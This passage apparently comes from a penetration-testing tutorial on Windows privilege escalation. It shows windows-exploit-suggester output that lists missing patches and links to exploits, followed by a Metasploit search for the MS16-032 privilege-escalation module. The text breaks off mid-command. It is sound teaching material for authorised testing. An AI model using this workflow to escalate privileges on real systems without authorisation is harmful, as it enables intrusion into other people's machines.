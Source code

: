 Once we have the patch information, we can move on to using `windows-exploit-suggester`
- First get an updated MSSB database, then run the script with out two files, looking for local exploits. 


**Getting Local Exploit Suggestions**  
  

```bash
root@quiche:~# ./windows-exploit-suggester.py --update  
[*] initiating winsploit version 3.3…  
[+] writing to file 2023-01-09-mssb.xls  
[*] done  
root@quiche:~# ./windows-exploit-suggester.py -i patches.txt -d 2023-01-09-mssb.xls -l  
[*] initiating winsploit version 3.3…  
[*] database file detected as xls or xlsx based on extension  
[*] attempting to read from the systeminfo input file  
[+] systeminfo input file read successfully (ascii)  
[*] querying database file for potential vulnerabilities  
[*] comparing the 2 hotfix(es) against the 407 potential bulletins(s) with a database of 137 known exploits  
[*] there are now 407 remaining vulns  
[*] searching for local exploits only  
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin  
[+] windows version identified as 'Windows 2008 R2 SP1 64-bit'  
[*]  
[M] MS16-075: Security Update for Windows SMB Server (3164038) - Important  
[*] https://github.com/foxglovesec/RottenPotato  
[*] https://github.com/Kevin‐Robertson/Tater  
[*] https://bugs.chromium.org/p/project‐zero/issues/detail?id=222 -- Windows: Local WebDAV NTLM Reflection Elevation of Privilege  
--- snip ---  
[E] MS14-026: Vulnerability in .NET Framework Could Allow Elevation of Privilege (2958732) - Important  
[*] http://www.exploit‐db.com/exploits/35280/, -- .NET Remoting Services Remote Command Execution, PoC  
[*]  
[*] done
```

Some of the suggested exploits won't run against Windows on Windows (WoW) 64. This is a subsystem that allows 32-bit Windows executables to execute on 64-bit Windows installations. The exploit would need the ability to run within this subsystem and still be able to exploit the vulnerability. As there is an additional layer of software on 64-bit Windows, some exploit just won't work. 

**Searching for Local Exploit**  
  
```powershell
msf exploit(windows/local/ms15_051_client_copy_image)> search MS16-032  
  
Matching Modules  
================  
  
      Name                                                             Disclosure Date  Rank    Description  
      ----                                                             ---------------  ----    -----------  
   exploit/windows/local/ms16_032_secondary_logon_handle_privesc  2016-03-21       normal  MS16-032 Secondary Logon Handle Privilege Escalation  
  
  
   exploit(windows/local/ms15_051_client_copy_image)> use exploit/windows/local/ms16_032_secondary_logon_
```
